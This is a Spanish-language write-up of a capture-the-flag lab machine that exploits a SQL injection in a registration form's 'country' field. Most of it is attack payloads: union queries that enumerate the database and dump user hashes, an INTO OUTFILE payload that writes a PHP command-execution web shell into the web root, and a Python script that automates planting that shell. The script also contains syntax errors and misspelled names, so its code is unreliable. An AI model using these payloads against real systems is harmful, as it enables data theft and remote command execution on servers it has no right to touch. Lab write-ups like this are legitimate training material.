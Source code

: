## Vulnerability Assessment {-}

### Analysando SQLI con Burpsuite {-}

Intentamos cambiar el pays.

```bash
username=admin&country=Brazil'-- -
username=admin&country=Brazil' union select 1-- -
username=admin&country=Brazil' union select database()-- -
username=admin&country=Brazil' union select version()-- -
```

Aqui la web nos muestra un 1 que significa que es vulnerable a SQLI.

Miramos las bases de datos existentes

```bash
username=admin&country=Brazil' union select schema_name from information_schema.schemata-- -
```

vemos que hay:
- information_schema
- performance_schema
- mysql
- registration

Miramos las tablas existentes en registration

```bash
username=caa&country=Brazil' union select table_name from information_schema.tables where table_schema="registration"-- -
```

Vemos que solo hay una tabla registration.

Enumeramos las columnas

```bash
username=caa&country=Brazil' union select column_name from informaction_shema.columns where table_schema="registration" and table_name="registration"-- -
```

Vemos las columnas:
- username
- userhash
- country
- regtime

Con group_concat enumeramos lo que hay en esta tabla

```bash
username=caa&country=Brazil' union select group_concat(username,0x3a,userhash) from registration-- -
```

Aqui vemos 
-admin:212321297a57a5a743894a0e4a801fc3
-caa:f931822fed1932e33450b91305a0c3d

Pero son usuarios que hemos creado nosotros.

#### Depositar ficheros con SQLI {-}

```bash
username=admin&country=Brazil' union select "probando" into outfile /var/www/html/prueba.txt-- -
```

Si vamos con firefox a la url `http://10.10.11.116/prueba.txt` podemos ver prueba. Intentamos subir un fichero php

```bash
username=admin&country=Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/s4vishell.php-- -
```

Si vamos a la url `http://10.10.11.116/s4vishell.php?cmd=whoami` vemos que podemos ejecutar comandos.

### Creamos un autopwn en python {-}

```python
#!/usr/bin/python

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

if len(sys.argv != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0]
    sys.exit(1)

#Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

    data_post = {
        'username': 'caa',
        'country': """Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/%s-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':
    createFile()

```